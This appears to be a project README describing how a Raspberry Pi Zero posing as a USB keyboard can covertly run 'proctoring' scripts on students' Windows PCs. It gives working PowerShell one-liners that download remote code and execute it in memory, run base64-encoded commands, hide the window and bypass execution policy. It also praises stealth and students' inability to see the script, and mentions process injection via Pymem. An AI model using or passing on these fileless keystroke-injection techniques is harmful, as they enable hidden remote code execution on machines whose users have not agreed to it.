 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, keystroke can be sent to execute "Run". Following which, additional keystrokes command can be sent from the examples below to conduct proctoring.  

With the Fileless Execution method, we do not need to copy any external binary executable/scripts to be able to conduct proctoring. Instead we utilize a Windows built-in software Powershell, to download additional scripts and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression Parameters
```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand Parameters
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere.
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 

## 1.3 Additional Parameters
- WindowStyle (-w) hidden: This makes the Powershell operation stealth by hiding the program window away from the user
- Exec Bypass: bypass/ignore the execution policy like _Restricted_ which restricts the PS command from running
  - With this even if user set _ExecutionPolicy: Restricted_, we are still able to run the proctoring script
- Noprofile (-nop): Ignore the commands in the Profile file

## Pros:
- Not intrusive, no file will be downloaded and placed in the student's PC 
- Students have no access to the proctoring script at all 
- Execute in the background hidden
- When updating the proctoring script, proctors can just re-host the newest version on the remote server

## Cons:
- Proctoring Script have to be written in powershell language
- A remote server to serve the proctoring script from method 1.1
- For method 1.2, if there is any update on the proctoring script, encodedstring have to be reformed and HID keystroke commands have to be editted too on every single raspberry pi

# 2. Mass Storage 

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

In this method we utilize the Mass storage mode and HID mode of the composite Pi.  
1. We will be placing in the backing store (storage) created in the Pi. 
2. Once the Pi is connected, the emulated mass storage will be visible.
3. Inside the storage device, the proctoring script will then be present.
4. From there, we can send in keystrokes using the HID mode to execute the script from Windows built in programs (such as cmd.exe or powershell.exe) inside the emulated mass storage device in the Student's PC

## Pros:
- Not much pros

## Cons:
- Script is accessible to students which will allow them to study it and possbily find ways to avoid detection
- In the event of proctoring script updating, every Pi have to be updated manually

# 3. Pymem

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

This method allows the injection of python interpreter into any process. 

## Pros:
- NA 

## Cons: 
- Script that does the injection is presented in the Student's PC
- In the script that perform the injection, the proctoring features is exposed to the students. 

